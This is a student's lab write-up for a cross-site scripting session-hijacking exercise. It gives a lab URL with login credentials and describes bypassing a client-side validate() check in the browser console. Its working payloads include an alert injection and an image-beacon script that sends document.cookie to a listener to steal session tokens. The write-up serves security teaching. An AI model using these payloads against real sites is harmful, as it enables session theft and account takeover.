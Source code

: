# Cross-site scripting (XSS)
##  Exercise — Session Hijacking
- URL: http://193.226.5.99/websec3/
- Authentication:
    - user: user2
    - password: parola1234
- Exercise:
    - Identify XSS vulnerability
    - Inject a script (payload) that exploits the identified vulnerability
    - Lure the administrator on your page to launch the attack
    - Exfiltrate the session token from the user
    - Authenticate in the attacked application using the session token

<br>First, the value from the input is placed into the value attribute form the input field
<br>For example, when typing `value` and submit, the page looks like this:

![1](1.png)
<br>I suspect that I am able to insert via the input field an html element or a new attribute for the input.
``` 
" onerror='alert("injected script")'
value" onerror='alert("injected script")'
```
<br>For this kind of input, the browser throws a popup this the message `Invalid search term !`

### Override the `validate()` function
In browser console, I typed `allow pasting`

Then I wrote in console the new `validate()` function that I want to execute
``` 
function validate() {
    return true; // Always allow the form submission
}
```
Then, I want to show an alert to the user, so in the search field, I type
``` 
"><script>alert()</script>
```

![2](2.png)

![3](3.png)

![4](4.png)

![5](5.png)

So this approach can work to inject anything else

I want to inject a script thta gives me the session token:
[Inspiration from lab 3](./WS3_%20XSS%20_%20CSRF.pdf)

```"><script>alert(document.cookie)</script>```
```
<script>var i=new Image(); i.src="http://localhost:8000/?"+document.cookie;</script>
```